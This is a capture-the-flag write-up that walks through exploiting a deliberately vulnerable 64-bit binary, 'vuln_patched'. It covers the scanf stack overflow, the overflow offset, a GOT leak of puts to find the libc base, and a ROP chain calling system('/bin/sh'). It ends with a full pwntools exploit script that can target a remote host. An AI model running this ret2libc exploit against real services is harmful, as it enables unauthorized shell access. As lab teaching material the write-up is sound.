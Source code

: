 
# **Here's a LIBC: `vuln_patched`**

## **Challenge Overview**

* **Binary:** `vuln_patched`
* **Libc:** Provided (`libc.so.6`)
* **Goal:** Exploit the binary to spawn a shell and retrieve a flag.
* **Security Protections:**

  * NX: Enabled (no shellcode execution on stack)
  * PIE: Disabled (`0x400000` base)
  * Stack Canary: Not present
  * RELRO: Partial

This indicates the binary is **ROP-friendly**, with a standard 64-bit calling convention.

---

## **Step 1: Setting Up the Exploit Environment**

Since we were provided with **both the binary and libc**, we can test locally using the provided libc:


![wrong libc](./img/wrong.png)

this is due to the Wrong libc version

![brfore](./img/before.png)


so we will use [pwninit](https://github.com/io12/pwninit.git) tool


```bash
pwninit --libc libc.so.6 --no-template --bin vuln
```

This prepares a local exploit environment, mapping the correct libc for ROP-based exploitation.

after this you will have an patched binary


![after](./img/after.png)

---

## **Step 2: Analyzing the Binary**


since we are not given with source code so we will use tools like `r2` or `Ghidra`:

```c
int main() {
    char buffer[40];
    // ...
    scanf("%[^\n]", buffer);
    // ...
    do_stuff(buffer);
}
```

**Observations:**

1. The binary reads user input using `scanf("%[^\n]")` into a **stack buffer** (`char buffer[40]`).
2. The `do_stuff()` function processes input and calls `puts()` after some conversion.
3. The **stack buffer** is limited (40 bytes), but `scanf` does not limit input length — so a **buffer overflow** is possible.
4. NX is enabled → we cannot execute shellcode directly.
5. Partial RELRO, no canary → **RIP overwrite via ROP** is feasible.

**Conclusion:** This is a **stack-based ROP challenge**.

---

## **Step 3: Determining the Overflow Offset**

We need to find how many bytes to reach **RIP** (the return address):

i will use `ragg2` with `r2` 

![ragg2](./img/ragg2.png)

now lets find the address of main on the stack


we have to find this:

![retun_addr](./img/returnaddr.png)

![](./img/addr_stack.png)

now lets enter the payload given by `ragg2` and examin the stack

![offset](./img/offset.png)

* This is the number of bytes to overwrite saved RIP.

---

## **Step 4: Crafting the First ROP Payload (Leak libc address)**

**Goal:** Leak the address of `puts` from the GOT to calculate the libc base.

**ROP chain:**

1. `pop rdi; ret` → Set up argument for `puts`.
2. `puts@GOT` → Print actual libc address of `puts`.
3. `puts@PLT` → Call puts function.
4. `main` → Return to main for a second stage.

**Python Payload:**

```python
payload  = b"A"*offset
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(elf.got.puts)
payload += p64(elf.plt.puts)
payload += p64(elf.symbols.main)
```

**Send payload and receive leak:**

```python
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!\n', payload)
puts_addr = u64(p.recv(8))
```

* `u64()` converts the leaked 8-byte address to integer.
* The leak allows us to calculate **libc base**:

```python
glibc.address = puts_addr - glibc.symbols.puts
```

---

## **Step 5: Crafting the Final ROP Payload (Spawn Shell)**

Now we know **libc base**, we can call `system("/bin/sh")`:

**ROP chain:**

1. `pop rdi; ret` → Set up RDI with `/bin/sh` string.
2. `/bin/sh` → Found in libc.
3. Optional `ret` → Align stack to 16 bytes (prevents crashes).
4. `system` → Call system("/bin/sh").

**Payload:**

```python
payload  = b"A"*offset
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(glibc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])   # Stack alignment
payload += p64(glibc.symbols.system)
```

* Stack alignment is needed because **x86\_64 ABI requires 16-byte alignment at function calls**.
* Omitting this can sometimes crash `system()`.

**Send final payload:**

```python
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!\n', payload)
p.interactive()
```

* This drops you into a **interactive shell**.

---

## **Step 6: Notes on Loader / Libc**

* The challenge provided `libc.so.6`.
* When testing locally, we **use it directly in pwntools**:

```python
glibc = ELF('libc.so.6', checksec=False)
```

* On remote server, we rely on the **given libc** for correct addresses.

* Using `pwninit` sets up a proper exploitation environment with the correct libc mapped.

---

### **Step 8: Full Exploit Script**

```python
#!/usr/bin/env python3
from pwn import *
import sys

context.binary = elf = ELF('vuln_patched')
glibc = ELF('libc.so.6', checksec=False)
rop = ROP(elf)

def get_process():
    if len(sys.argv) == 1:
        return elf.process()
    host, port = sys.argv[1], int(sys.argv[2])
    return remote(host, port)

def main():
    p = get_process()
    offset = 136
    junk = b'A' * offset

    # Stage 1: Leak puts
    payload  = junk
    payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
    payload += p64(elf.got.puts)
    payload += p64(elf.plt.puts)
    payload += p64(elf.symbols.main)

    p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!\n', payload)
    puts_addr = u64(p.recv(8))
    log.info(f'Leaked puts() address: {hex(puts_addr)}')

    glibc.address = puts_addr - glibc.symbols.puts
    log.info(f'Glibc base address: {hex(glibc.address)}')

    # Stage 2: Spawn shell
    payload  = junk
    payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
    payload += p64(next(glibc.search(b'/bin/sh')))
    payload += p64(rop.find_gadget(['ret'])[0])  # Stack alignment
    payload += p64(glibc.symbols.system)

    p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!\n', payload)
    p.interactive()

if __name__ == '__main__':
    main()
```

![result](./img/result.png)


